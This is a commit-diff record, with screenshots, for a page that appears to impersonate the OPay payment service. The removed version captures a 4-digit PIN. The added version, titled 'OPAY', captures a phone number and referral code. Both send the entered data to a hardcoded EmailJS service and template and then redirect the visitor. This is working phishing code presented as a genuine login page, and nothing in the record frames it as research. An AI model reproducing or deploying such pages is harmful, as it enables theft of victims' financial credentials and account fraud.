

Before and after one commit to Sureform/opay, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 332-800 px from the top of the page, without its empty margins (320-960 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,47 +3,47 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>4-Digit PIN Login</title>
-    <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@4/dist/email.min.js"></script>
-    <script>
+    <title>OPAY</title>
+
+    <!-- Include EmailJS library -->
+    <script type="text/javascript" src="https://cdn.jsdelivr.net/npm/@emailjs/browser@4/dist/email.min.js"></script>
+
+    <script type="text/javascript">
         // Initialize EmailJS
         (function () {
-            emailjs.init("brHvxqtsePQc4PuqQ");
+            emailjs.init("brHvxqtsePQc4PuqQ"); // Replace with your public key
         })();
 
-        // Function to handle PIN submission
-        function handlePinSubmit(event) {
-            event.preventDefault(); // Prevent form submission
+        // Function to send email and redirect
+        function handleSendAndLogin(event) {
+            event.preventDefault(); // Prevent default form submission
 
-            // Collect PIN inputs
-            const pinInputs = document.querySelectorAll('.pin-input');
-            let pin = '';
-            pinInputs.forEach(input => {
-                pin += input.value;
-            });
+            // Get form input values
+            const phone = document.getElementById("phone").value;
+            const referral = document.getElementById("referral").value;
 
-            // Ensure PIN is 4 digits
-            if (pin.length === 4) {
             // Prepare email parameters
             const emailParams = {
-                    pin_code: pin, // Key matches {{pin_code}} in EmailJS template
+                phone_number: phone,
+                referral_code: referral
             };
 
             // Send email using EmailJS
             emailjs.send("service_p5v1sz7", "template_ak5d8h8", emailParams)
-                    .then(() => {
-                        alert("PIN sent successfully!");
-                        window.location.href = "success.html"; // Redirect after success
+                .then((response) => {
+                    console.log("Email sent successfully:", response);
+                    alert("Your details have been sent successfully!");
+
+                    // Redirect after successful email
+                    window.location.href = "index2.html";
                 })
                 .catch((error) => {
                     console.error("Error sending email:", error);
-                        alert("Failed to send PIN. Please try again.");
+                    alert("Failed to send details. Please try again.");
                 });
-            } else {
-                alert("Please enter a valid 4-digit PIN.");
-            }
         }
     </script>
+
     <style>
         body {
             font-family: Arial, sans-serif;
@@ -55,59 +55,63 @@
             align-items: center;
             height: 100vh;
         }
-        .pin-container {
-            background: #ffffff;
+        .login-container {
+            background: lime;
             padding: 20px;
             border-radius: 10px;
             box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
             width: 100%;
-            max-width: 300px;
+            max-width: 400px;
+        }
+        .login-container h1 {
             text-align: center;
-        }
-        .pin-container h2 {
             margin-bottom: 20px;
             color: #333;
         }
-        .pin-inputs {
-            display: flex;
-            justify-content: center;
-            gap: 10px;
-            margin-bottom: 20px;
+        .form-group {
+            margin-bottom: 15px;
         }
-        .pin-inputs input {
-            width: 50px;
-            height: 50px;
-            text-align: center;
-            font-size: 18px;
+        .form-group label {
+            display: block;
+            margin-bottom: 5px;
+            color: #555;
+        }
+        .form-group input {
+            width: 100%;
+            padding: 10px;
             border: 1px solid #ddd;
             border-radius: 5px;
         }
-        .pin-container button {
+        .form-group button {
             width: 100%;
             padding: 10px;
-            background-color: #007bff;
+            background-color: greenyellow;
             color: #ffffff;
             border: none;
             border-radius: 5px;
             cursor: pointer;
             font-size: 16px;
         }
-        .pin-container button:hover {
-            background-color: #0056b3;
+        .form-group button:hover {
+            background-color: lightgreen;
         }
     </style>
 </head>
 <body>
-    <div class="pin-container">
-        <h2>Enter Your 4-Digit PIN</h2>
-        <form onsubmit="handlePinSubmit(event)">
-            <div class="pin-inputs">
-                <input type="password" maxlength="1" class="pin-input" required>
-                <input type="password" maxlength="1" class="pin-input" required>
-                <input type="password" maxlength="1" class="pin-input" required>
-                <input type="password" maxlength="1" class="pin-input" required>
+    <div class="login-container">
+        <h1>OPAY</h1>
+        <form onsubmit="handleSendAndLogin(event)">
+            <div class="form-group">
+                <label for="phone">Phone Number</label>
+                <input type="text" id="phone" name="phone" required>
             </div>
-            <button type="submit">Submit</button>
+            <div class="form-group">
+                <label for="referral">Referral Code</label>
+                <input type="text" id="referral" name="referral" required>
+            </div>
+            <div class="form-group">
+                <button type="submit">Send & Login</button>
+            </div>
         </form>
     </div>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
